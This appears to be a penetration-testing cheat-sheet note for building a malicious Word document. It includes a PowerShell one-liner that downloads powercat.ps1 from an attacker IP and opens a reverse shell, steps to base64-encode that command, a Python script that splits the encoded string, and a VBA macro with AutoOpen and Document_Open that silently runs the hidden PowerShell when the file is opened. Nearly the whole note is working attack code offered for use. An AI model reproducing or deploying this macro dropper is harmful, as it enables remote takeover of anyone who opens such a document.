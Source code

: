```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: asdfasdf
PORT_KALI: "4444"
---
```

Powershell command for rev shell:
- IEX(New-Object System.Net.WebClient).DownloadString('http://<span id="IP_KALI"/>192.168.45.155<span type="end"/>/powercat.ps1');powercat -c <span id="IP_KALI"/>192.168.45.155<span type="end"/> -p <span id="PORT_KALI"/>4444<span type="end"/>  -e powershell
- Encode using powershell:
```
$Text = "INSERT PREVIOUS SHELL"
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText =[Convert]::ToBase64String($Bytes)
```
```
$EncodedText
```

Python script to splite the encoded string:
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANQA1AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA1ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Ensure that you are saving the macro to the document you intend to send:
![[Pasted image 20241015124057.png]]

Updated Macro:
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
	Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADQANQAuADEANQA1AC8AcABvAHcAZQByAGMAY"
	Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA1ACAALQBwA"
	Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	Str = Str + "A"



    CreateObject("Wscript.Shell").Run Str
End Sub
```

